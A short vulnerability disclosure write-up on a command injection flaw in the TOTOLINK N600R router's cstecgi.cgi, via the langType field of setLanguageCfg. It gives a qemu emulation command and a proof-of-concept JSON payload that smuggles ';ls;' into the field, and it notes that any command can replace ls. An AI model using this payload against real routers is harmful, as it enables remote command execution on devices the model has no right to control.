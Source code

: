 # TOTOLINK-N600R-setLanguageCfg-CommandInjection

﻿During my internship at Qi An Xin Tiangong Lab, I discovered a  command injection vulnerability in the TOTOLINK-N600R router.

By analyzing the cstecgi.cgi file in the cgi-bin directory, I found that the function at address 0x4159F8 contains a command injection vulnerability.

The command injection can be triggered by the langType key value, which leads to a sprintf command injection.

![image-20241216165906585](https://gitee.com/xyqer/pic/raw/master/202412191538676.png)

## How can we simulate a router

﻿Use the following command to simulate with qemu.

```bash
sudo chroot . ./qemu-mips-static -E CONTENT_LENGTH=300 -E QUERY_STRING="action=no" -L /lib ./web_cste/cgi-bin/cstecgi_patch.cgi < ./poc.json
```

﻿The content of the **poc.json** file is as follows:

```json
{"topicurl":"setLanguageCfg","langType":";ls;"}
```

## Attack result

![image-20241216170307530](https://gitee.com/xyqer/pic/raw/master/202412191538392.png)

﻿You can see that the command "ls" has been executed. If you want to execute other instructions, you only need to modify the key value of langType. You can execute any number of arbitrary instructions.
